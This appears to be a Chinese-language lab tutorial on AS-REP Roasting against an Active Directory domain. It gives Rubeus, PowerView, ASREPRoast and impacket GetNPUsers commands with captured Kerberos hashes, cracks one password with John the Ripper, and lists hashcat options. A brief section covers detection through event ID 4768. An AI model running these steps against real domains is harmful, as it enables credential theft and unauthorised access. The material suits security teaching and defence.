









# AS-REP Roasting攻击

> Windows 2008 R2

## 简介

AS-REP Roasting是一种针对使用Kerberos协议进行身份验证的攻击，其目的是利用Kerberos漏洞以获取活动目录中的用户凭据。

Kerberos是一种网络身份验证协议，用于在计算机网络上安全地验证用户和服务。Kerberos协议使用票据（ticket）来验证用户身份。在活动目录中，用户凭据包括密码散列和KERBEROS的AES密钥。

AS-REP Roasting利用Kerberos协议中的一个漏洞，即在某些情况下，允许攻击者通过发送具有无效身份验证请求（AS-REQ）来收集AS-REP响应。AS-REP响应包含用户的加密AES密钥，**攻击者可以将其用于破解密码散列并获得用户凭据**。




## 环境搭建

域用户设置了选项"**Do not require Kerberos preauthentication**"，**通常情况下，该选项默认不会开启。**






## 漏洞利用

### rubeus

使用rubeus.exe获得Hash

```css
Rubeus.exe asreproast
```




### powershell

使用的`powerview.ps1`查找域中设置了 "不需要kerberos预身份验证" 的用户

```powershell
 Import-Module .\powerview.ps1
 Get-DomainUser -PreauthNotRequired
```



使用`ASREPRoast.ps1`获取AS-REP返回的Hash

```powershell
PS C:\> Get-ASREPHash -UserName hacker -Domain sectest.com
$krb5asrep$hacker@sectest.com:d0a157853391aab1e8e01bc686fb163a$809336bab609b5471e00dfd086ec87a1b2dcaa329c36753a0da5ecba
7c360e3aefb21c07a363139c9f0aeff96da09345137fc6b2a4320cec2be50a7a1f91548881c933f968657018c29fab4f7c370d48ad1bf4484164dfc
0435b1a6ca8313280d1b8c854da0e97191a35b94e2065020e2712b9ae9ed11b4be4c8d0d213c8dd8e462c1c2192b9e3904bc1ccea93e956cbcb442d
72d9e1fbacc81a261482e08a601c82b7927bc15e8ec2fd36725bc4d7a50a2a7519000896a7205ab87890584076a14c818f185ff206f2fb957324ec3
d591e2e623d1a14d5732fced962db9d5fcfae397c7bcb4ead5e5608
PS C:\>
PS C:\>
PS C:\> Get-ASREPHash -UserName administrator -Domain sectest.com
$krb5asrep$administrator@sectest.com:ba6badff514dd32e51a8375d59d3b4fd$4b19d25ec755b55a6c350740d6b7e91b3d980ae234ba5721b
d81177e0f5ad065a248dae0b9a2ca7968d8dd6238c1771c1376445296e8fc3c10ec1323b23bc76438b8ffff191e2da0961e47216caa5e3b3372d9d7
71bdf037c62c10ddbc9ed87cc4097539c14b74eea80b35ae0817953da40c0e8bf8fd12543db6753b0a4b0c007aa04090f7d0c88625ba4d200bba287
b98d6048544c35717d0571d6e121aebf613f240fbbd053d11f97aae1bf28473431addc504ce97d291a633f09a301d5e97c21220d2261de0beab1339
2512134d77ac292bf3af0adc3d864db4b9c8f0460754aab44c45863aa95e7a
PS C:\>
```


### impacket

爆破用户

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest.com/ -usersfile /tmp/user.txt  
```



知道具体用户，获取票据信息

```sh
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/administrator -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                        
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for administrator
$krb5asrep$23$administrator@SECTEST:7a5b7de0d5af4a66f5ee83a3eb48b726$e6c5ea6fb79ea8154a25f7ba4b0f12c265f7c2f10ef2591cba1ccdb1b42bc38f39dde177ac87da7dc9c66c90966afd12a7a131c817ce5f84b57312f5b846b5bc86a516a982ca438a6a4914d5c9220cbded7a5cf05ddf374f5cf3b3e735046e510bd688db79fde9ed15601e52d9991a21fc758b634df9932ace8839da67fbf36bbb670158005beac9a1b65806964f104accf99065edf74c80c113ced5fa13fb11a54e1eaf33f4ffbad561891d66917b4b728838b01e3469aed2c54f6c99c0aca879f24f92f8ccb703b69cd5bd9f6507a89be384297881d037550066a88a38d9bd7ad71b1006dc
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/Desktop/impacket-master/examples]
└─# python3 GetNPUsers.py sectest/hacker -no-pass -dc-ip 192.168.32.144 -request                                                                                                                                                  
Impacket v0.10.1.dev1 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for hacker
$krb5asrep$23$hacker@SECTEST:a7b9a372f2e3a0fa7568e860797ae62b$bd120f6279317280bf9e3b949cbac5b30bb3734926a9a13edd3dee5028b718541a938963f5279bac3f92c64eeb88c7255b3f2dac60106ac14abfe0bb4f43dbe7ec4e91a8ed7703049620e6e79bdb23451cf631694c27a9e88ee8433c0bda6bd1da67064d90d576e8bcecdef3fecb1ba14ac3c3acc4a35ca76bd34e4f7fee122378ed77f49b6ec452183f5b4462e03e565da49bd62227065c87b20293c5f2156a143e3b4a2902c8da7193131b7fa061426004dec87d6ddb0bc3fced9b3fd135aa0dbde8acdb76b45dd54e0f41db10792775cd0a6d98d35fbed53022fb6439aff534406491213b

```


## 哈希破解

### john

```sh
┌──(root💀kali)-[/tmp]
└─# john --wordlist=password.txt hash.txt  
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
abcABC123        ($krb5asrep$23$hacker@SECTEST.COM)
1g 0:00:00:00 DONE (2022-07-01 05:58) 10.00g/s 701890p/s 701890c/s 701890C/s punkey..pinkk
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

### hashcat

```sh
┌──(root💀kali)-[/tmp]
└─# hashcat -a 0 -m 18200 hash.txt password.txt --force  
```



## 日志分析

Windows事件ID 4768是Kerberos身份验证服务的事件ID，用于记录Kerberos身份验证请求的事件。这个事件ID通常不会单独表示攻击，但如果您注意到异常的数量或出现了未授权的Kerberos身份验证请求，则可能表明发生了攻击。



